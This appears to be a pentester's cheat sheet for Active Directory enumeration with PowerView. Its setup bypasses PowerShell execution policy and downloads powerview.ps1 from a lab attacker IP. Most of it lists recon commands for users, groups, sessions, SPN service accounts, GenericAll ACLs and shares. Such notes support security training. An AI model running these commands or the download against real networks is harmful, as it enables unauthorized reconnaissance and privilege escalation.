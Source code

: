 ### Setup 
```
Docu: https://powersploit.readthedocs.io/en/latest/Recon/

powershell -ep bypass

iwr -uri http://192.168.45.154:8000/powerview.ps1 -Outfile powerview.ps1

Import-Module .\PowerView.ps1
```

### Commands

#### Enumerating Domain
```
Get-NetDomain
```
#### Enumerating Users
```
Get-NetUser
Get-NetUser <username>
Get-NetUser | select <attribute>,<attribute>,<attribute>
```
#### Enumerating Groups
```
Get-NetGroup
Get-NetGroup <groupname>
Get-NetGroup | select <attribute>,<attribute>,<attribute>
Get-NetGroup | Where-Object { $_.member -like "<user>*" } | Select-Object cn, member - show all groups member is a apart of.
```
#### Enumerating Computer Information
```
Get-NetComputer
Get-NetComputer | select dnshostname,<attribute>
```

#### Understanding Privileges
```
Find-LocalAdminAccess - attempts to find any computer that the current user has administrative privileges on.
Get-NetSession -ComputerName <computername> - attempts identify which user is logged into what computer.
.\PsLoggedon.exe [\\<computername>](file://%3ccomputername%3e) - enumerates who is logged into a computer.
```
#### Service Accounts
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

#### Enumerating Object Permissions
```
Get-ObjectAcl -Identity <users> - enumerates all objects that has an ACL entry for a particular user.
Convert-SidToName <SID>

#check if user has GeneralAll property this is the highest privilege within AD.
Get-ObjectAcl -Identity "Backup Operators" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-InterestingDomainAcl | select IdentityReferenceName,ActiveDirectoryRights,AceType,ObjectDN,SecurityIdentifier | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"}
```

#### Enumerating Shares
```
Find-DomainShare
net view \\<hostname\ip>
ls \\<hostname>\<sharename>\
cat \\<hostname>\<sharename>\
```
